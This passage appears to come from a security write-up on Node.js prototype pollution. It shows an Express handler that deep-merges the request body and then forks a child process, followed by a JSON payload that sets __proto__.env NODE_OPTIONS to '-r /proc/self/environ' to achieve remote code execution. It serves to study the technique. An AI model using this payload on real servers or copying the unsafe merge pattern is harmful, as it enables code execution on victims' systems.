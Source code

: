 ```js
    copy(obj, req.body);
    let proc = fork('calc.js', [3, 5], {
        stdio: ['ignore', 'pipe', 'pipe', 'ipc']
    });
    proc.stderr.pipe(res);
    proc.stdout.pipe(res);
    return;
});

const port = 8080;
app.listen(port, () => {
  console.log(`Server running on port ${port}`);
});

// calc.js
let argv = process.argv.slice(2);
console.log(`The result of ${argv[0]} mul ${argv[1]} is ${argv[0]*argv[1]}`);
```

```json
{"__proto__":{"env":{"aaa":"console.log('polluted 2 rce success')//","NODE_OPTIONS":"-r /proc/self/environ"}}}
```

![image-20230808160500486](./../.gitbook/assets/image-20230808160500486.png)
